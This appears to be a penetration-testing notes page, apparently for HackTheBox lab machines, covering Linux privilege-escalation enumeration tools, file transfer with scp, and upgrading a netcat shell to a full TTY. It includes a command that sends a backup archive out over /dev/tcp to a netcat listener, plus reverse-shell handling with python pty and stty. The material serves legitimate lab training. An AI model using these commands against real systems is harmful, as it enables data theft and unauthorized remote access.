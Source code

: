 **LinEnum** - https://github.com/rebootuser/LinEnum



**Linux Exploit Suggester** - https://github.com/mzet-/linux-exploit-suggester

  

**Linux Priv Checker** - https://github.com/sleventyeleven/linuxprivchecker
  

## File Transfer
### scp

`scp 10.10.14.17@lightweight.htb:/tmp/listen.pcap .`
  
![](https://i.imgur.com/QBsXWN3.png)


### nc

With **netcat** listener running locally on Kali machine, I sent the contents of **backup.7z** file over the network to the listener running on the local machine:

`cat backup.7z > /dev/tcp/10.10.14.17/9001`

![](https://i.imgur.com/BWu6t6d.png)

Now on my local listener, the data receieved by Netcat is redirected to a file named backup.7z:

`nc -lvnp 9001 > backup.7z`

![](https://i.imgur.com/FtwfYyu.png)

## TTY

Once we connect to a shell through Netcat, we will notice that we can only type commands or backspace, but we cannot move the text cursor left or right to edit our commands, nor can we go up and down to access the command history. To be able to do that, we will need to upgrade our TTY. This can be achieved by mapping our terminal TTY with the remote TTY.

There are multiple methods to do this. For our purposes, we will use the `python/stty` method. In our `netcat` shell, we will use the following command to use python to upgrade the type of our shell to a full TTY:

```shell-session
[!bash!]$ python -c 'import pty; pty.spawn("/bin/bash")'
```

After we run this command, we will hit `ctrl+z` to background our shell and get back on our local terminal, and input the following `stty` command:

```shell-session
www-data@remotehost$ ^Z

[1] Stopped                 nc -lvnp 1234
[!bash!]$ stty raw -echo
[!bash!]$ fg

[Enter]
[Enter]
www-data@remotehost$
```
